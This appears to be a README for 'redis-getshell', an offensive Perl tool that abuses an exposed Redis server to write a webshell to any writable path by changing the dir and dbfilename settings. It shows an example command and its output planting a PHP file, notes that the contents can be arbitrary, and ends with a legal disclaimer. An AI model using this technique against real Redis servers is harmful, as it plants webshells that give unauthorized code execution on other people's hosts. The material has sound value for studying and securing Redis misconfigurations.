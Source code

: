 ## redis-getshell

The script below demonstrates the possibility to dump a webshell through a redis server

## usage

<pre>
%> ./redis-getshell.pl --host 127.0.0.1 --port 6379 --path /tmp/ooo.php
[+] Connection established 127.0.0.1:6379
[+] Receiving old dbfilename value
[+] Receiving old dir value
[+] Alternating configuration
    -> dir /tmp
    -> dbfilename ooo.php
    -> webshell <?php phpinfo (); ?>
[+] Restoring configuration
</pre>

The script allow you to dump a file to anywhere writable, with arbritrary contents (--webshell parameter)

## legal disclaimer

Using this tool is legit but hacking may not be. The author does not take any responsibility for such activities.
